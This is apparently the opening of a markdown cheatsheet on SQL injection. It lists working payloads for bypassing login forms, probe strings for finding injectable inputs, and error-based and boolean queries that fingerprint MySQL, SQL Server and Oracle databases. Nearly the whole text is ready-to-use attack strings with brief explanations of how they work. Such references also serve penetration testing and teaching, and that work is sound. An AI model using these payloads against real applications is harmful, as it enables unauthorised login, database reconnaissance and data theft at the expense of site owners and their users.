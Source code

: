 # SQL Injection Cheatsheet: Basic to Advanced

## Basic SQL Injection Techniques

### 1. Authentication Bypass

These payloads help bypass login forms:

```
' OR 1=1 --
' OR '1'='1' --
" OR 1=1 --
admin' --
admin'/*
' OR '1'='1
') OR ('1'='1
```

**What they do**: Create a condition that's always true (1=1), causing the query to return all rows. The `--` comments out the rest of the query.

### 2. Testing for Vulnerability

```
'
"
')
"))
;
-- 
' OR '
' AND '
```

**What they do**: Insert unexpected characters that might break the SQL syntax. If the application shows an error message or behaves unusually, it may be vulnerable.

### 3. Identifying Database Type

**MySQL:**
```
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) --
```

**SQL Server:**
```
' AND (SELECT SUBSTRING(@@version,1,1)) = 'M' --
```

**Oracle:**
```
' AND (SELECT banner FROM v$version WHERE ROWNUM=1) LIKE '%Oracle%' --
```
